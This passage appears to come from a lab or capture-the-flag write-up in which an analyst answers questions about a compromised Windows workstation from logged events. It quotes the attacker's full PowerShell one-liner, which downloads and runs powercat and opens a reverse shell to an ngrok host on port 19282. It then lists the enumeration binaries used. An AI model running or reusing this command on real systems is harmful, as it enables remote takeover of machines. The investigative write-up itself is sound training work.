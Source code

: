 **Ans: powershell.exe**

### Q4. What URL did the attacker use to download a tool to establish a reverse shell connection?

**Ans:** https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

### Q5. What port did the workstation connect to the attacker on?

```powershell
"\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -c \"IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c [2.tcp.ngrok.io](http://2.tcp.ngrok.io/) -p 19282 -e powershell\""
```

The payload started a bind shell with port 19282 

- Time of the connection: Sep 15, 2023 @ 18:41:04.381
- Sorce ip: 172.16.1.150
- Source port: 61335
- Destionation ip: 3.22.53.161
- Destionation port: 19282

**Ans: 19282** 

### Q6. What was the first native Windows binary the attacker ran for system enumeration after obtaining remote access?

The attacker used all of these native Windows binaries for the enumeration process. 

<img width="1607" height="750" alt="image" src="https://github.com/user-attachments/assets/db263332-9609-4659-a0f3-53acebc65533" />

time: Sep 15, 2023 @ 18:41:28.487

<img width="1595" height="739" alt="image" src="https://github.com/user-attachments/assets/2fe93c6e-b966-493d-b650-56bd31c60600" />

time: Sep 15, 2023 @ 18:41:36.480

<img width="1626" height="771" alt="image" src="https://github.com/user-attachments/assets/e2aef47b-7f75-4f87-ad7e-ddeae5f2157f" />

time: Sep 15, 2023 @ 18:41:50.759

**Ans: systeminfo.exe**

### Q7. What is the URL of the script that the attacker downloads to enumerate the domain?

<img width="1701" height="741" alt="image" src="https://github.com/user-attachments/assets/6851d2ef-1d24-4301-8226-9b0af9b8f660" />

Time: Sep 15, 2023 @ 18:42:23.043

You can also find it if you search for the process id of systeminfo.exe  PPID

<img width="1638" height="736" alt="image" src="https://github.com/user-attachments/assets/ca63445d-16e8-4ab7-9eb1-86c41fbaff47" />
